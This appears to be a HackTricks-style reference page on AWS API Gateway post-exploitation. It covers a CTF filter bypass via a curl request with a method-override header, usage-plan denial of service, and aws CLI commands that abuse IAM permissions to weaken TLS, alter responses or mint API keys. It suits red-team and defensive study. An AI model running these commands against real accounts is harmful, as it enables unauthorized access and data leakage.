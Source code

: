 # AWS - API Gateway Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## API Gateway

For more information check:

{{#ref}}
../aws-services/aws-api-gateway-enum.md
{{#endref}}

### Access unexposed APIs

You can create an endpoint in [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) with the service `com.amazonaws.us-east-1.execute-api`, expose the endpoint in a network where you have access (potentially via an EC2 machine) and assign a security group allowing all connections.\
Then, from the EC2 machine you will be able to access the endpoint and therefore call the gateway API that wasn't exposed before.

### Bypass Request body passthrough

This technique was found in [**this CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp).

As indicated in the [**AWS documentation**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) in the `PassthroughBehavior` section, by default, the value **`WHEN_NO_MATCH`** , when checking the **Content-Type** header of the request, will pass the request to the back end with no transformation.

Therefore, in the CTF the API Gateway had an integration template that was **preventing the flag from being exfiltrated** in a response when a request was sent with `Content-Type: application/json`:

```yaml
RequestTemplates:
  application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```

However, sending a request with **`Content-type: text/json`** would prevent that filter.

Finally, as the API Gateway was only allowing `Get` and `Options`, it was possible to send an arbitrary dynamoDB query without any limit sending a POST request with the query in the body and using the header `X-HTTP-Method-Override: GET`:

```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```

### Usage Plans DoS

In the **Enumeration** section you can see how to **obtain the usage plan** of the keys. If you have the key and it's **limited** to X usages **per month**, you could **just use it and cause a DoS**.

The **API Key** just need to be **included** inside a **HTTP header** called **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

An attacker with the permissions `apigateway:UpdateGatewayResponse` and `apigateway:CreateDeployment` can **modify an existing Gateway Response to include custom headers or response templates that leak sensitive information or execute malicious scripts**.

```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```

**Potential Impact**: Leakage of sensitive information, executing malicious scripts, or unauthorized access to API resources.

> [!NOTE]
> Need testing

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

An attacker with the permissions `apigateway:UpdateStage` and `apigateway:CreateDeployment` can **modify an existing API Gateway stage to redirect traffic to a different stage or change the caching settings to gain unauthorized access to cached data**.

```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```

**Potential Impact**: Unauthorized access to cached data, disrupting or intercepting API traffic.

> [!NOTE]
> Need testing

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

An attacker with the permissions `apigateway:PutMethodResponse` and `apigateway:CreateDeployment` can **modify the method response of an existing API Gateway REST API method to include custom headers or response templates that leak sensitive information or execute malicious scripts**.

```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```

**Potential Impact**: Leakage of sensitive information, executing malicious scripts, or unauthorized access to API resources.

> [!NOTE]
> Need testing

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

An attacker with the permissions `apigateway:UpdateRestApi` and `apigateway:CreateDeployment` can **modify the API Gateway REST API settings to disable logging or change the minimum TLS version, potentially weakening the security of the API**.

```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```

**Potential Impact**: Weakening the security of the API, potentially allowing unauthorized access or exposing sensitive information.

> [!NOTE]
> Need testing

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

An attacker with permissions `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, and `apigateway:CreateUsagePlanKey` can **create new API keys, associate them with usage plans, and then use these keys for unauthorized access to APIs**.

```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```

**Potential Impact**: Unauthorized access to API resources, bypassing security controls.

> [!NOTE]
> Need testing

{{#include ../../../banners/hacktricks-training.md}}






